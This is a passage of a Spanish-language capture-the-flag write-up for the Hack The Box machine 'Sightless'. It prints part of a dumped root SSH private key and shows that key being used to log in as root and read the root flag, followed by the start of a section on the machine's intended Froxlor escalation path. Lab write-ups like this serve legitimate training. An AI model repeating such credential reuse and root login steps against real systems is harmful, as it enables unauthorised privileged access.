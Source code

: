 ```bash
Z2XeUGAJe7JDb40G9EB14UAk6XjeU5tWb0zkKypA+ixfyW59kRlca9mRHEeGXKT+08Ivm9
SfYtlYzbYDD/EcW2ajFKdX/wjhq049qPQNpOTE0bNkTLFnujQ78RyPZ5oljdkfxiw6NRi7
qyhOZp09LBmNN241/dHFxm35JvVkLqr2cG+UTu0NtNKzMcXRxgJ76IvwuMqp+HxtJPzC/n
yyujI/x1rg9B60AAAAEBAMhgLJFSewq2bsxFqMWL11rl6taDKj5pqEH36SStBZPwtASKvO
OrCYzkNPqQYLtpqN4wiEX0RlcqawjjBxTtYKpEbosydNYk4DFo9DXpzK1YiJ/2RyvlE7XT
UHRRgU7G8n8Q53zOjkXiQgMU8ayCmlFg0aCBYu+3yqp5deTiDVUVVn1GJf4b6jWuJkbyvy
uVmkDYBHxpjscG0Z11ngNu89YhWmDZfu38sfEcV828cHUW2JJJ/WibCCzGRhG4K1gLTghL
L+/cNo97CK/6XHaEhEOHE5ZWvNR6SaiGzhUQzmz9PIGRlLX7oSvNyanH2QORwocFF0z1Aj
+6dwxnESdflQcAAAEBAPG196zSYV4oO75vQzy8UFpF4SeKBggjrQRoY0ExIIDrSbJjKavS
0xeH/JTql1ApcPCOL4dEf3nkVqgui5/2rQqz901p3s8HGoAiD2SS1xNBQi6FrtMTRIRcgr
46UchOtoTP0wPIliHohFKDIkXoglLtr8QBNBS7SEI+zTzlPVYZNw8w0fqcCh3xfjjy/DNm
9KlxLdjvS21nQS9N82ejLZNHzknUb1fohTvnnKpEoFCWOhmIsWB9NhFf7GQV1lUXdcRy1f
ojHlAvysf4a4xuX72CXMyRfVGXTtK3L18SZksdrg0CAKgxnMGWNkgD6I/M+EwSJQmgsLPK
tLfOAdSsE7MAAAASam9obkBzaWdodGxlc3MuaHRiAQ==
-----END OPENSSH PRIVATE KEY-----
```

Desde la misma máquina podermos utilizar la clave para autenticarnos como usuario `root` y ganar el acceso completamente.

```bash
michael@sightless:/tmp$ ssh -i id_rsa root@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
Last login: Fri Jan 17 01:52:26 2025 from 10.10.16.5
root@sightless:~# hostname
sightless
```

También lo que podremos realizar es copiar el contenido de la clave privada en nuestro equipo local, le daremos los permisos necesarios y procederemos a conectarnos. Verificaremos que logramos mostrar el contenido de la flag **root.txt**.

```bash
❯ chmod 600 id_rsa
❯ ssh -i id_rsa root@10.10.11.32
Last login: Tue Sep  3 08:18:45 2024
root@sightless:~# hostname 
sightless
root@sightless:~# cat /root/root.txt 
13f85930a270ac2*****************
```

## Original Privilege Escalation (PrivEsc)

Después de revisar el WriteUp original una vez que la máquina `Sightless` se encuentra retirada en HTB, verificamos la ruta de la escalada de privilegios original por la cual estaba planeada la máquina.

En un principio, la ruta que nosotros logramos explotar inicialmente también es válida, ya que nos aprovechanos de las funciones que ofrece `Froxlor`.
